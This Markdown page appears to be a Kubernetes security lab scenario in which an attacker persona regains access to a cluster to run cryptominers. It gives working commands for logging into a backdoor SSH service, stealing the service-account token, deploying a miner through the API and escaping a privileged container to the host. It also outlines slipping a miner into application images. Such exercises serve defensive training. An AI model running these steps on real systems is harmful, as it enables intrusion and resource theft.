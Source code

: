 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
  * There is a service account associated with the container which has been granted access to all kubernetes APIs
  * The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

We also want to make sure we are creating the new miners in the same namespace:
```console
export NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Lastly, we will need curl for this and our SSH image didn't come with it preinstalled:
```console
apk update && apk add curl
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/apis/apps/v1/namespaces/$NAMESPACE/deployments" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"apiVersion":"apps/v1","kind":"Deployment","metadata":{"labels":{"run":"bitcoinero"},"name":"bitcoinero","namespace":"'$NAMESPACE'"},"spec":{"replicas":1,"revisionHistoryLimit":2,"selector":{"matchLabels":{"run":"bitcoinero"}},"strategy":{"rollingUpdate":{"maxSurge":"25%","maxUnavailable":"25%"},"type":"RollingUpdate"},"template":{"metadata":{"labels":{"run":"bitcoinero"}},"spec":{"containers":[{"image":"securekubernetes/bitcoinero:latest","name":"bitcoinero","command":["./moneymoneymoney"],"args":["-c","1","-l","10"],"resources":{"requests":{"cpu":"100m","memory":"128Mi"},"limits":{"cpu":"200m","memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods/bitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

## Future Proofing

__Red__ has already been discovered once on this system. Luckily we left a backdoor last time. We should probably do that again. This time, let's hide our miner inside of a legitimate application. Then we won't even need access to the cluster anymore, whenever the owner of the cluster runs their apps, our miners will get spun up right along with them.

To get started we need to escape the container and gain access to the host OS:
```console
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
chroot /mnt/hola /bin/bash
```
And just like that you are now root on the host node!

Next we need to figure out where the container images are coming from:
```console
kubectl get deployment <deployment-name> -n prod -o jsonpath="{.spec.template.spec.containers[*].image}"
```

Now let's add our crypto miner to the application image:
```console
```

And then we push our modified image to the repository, replacing the existing image. 
```console
```

Now, all future instances of the application that launch on this cluster will run our crypto miner alongside their application!

Time for some celebratory pizza!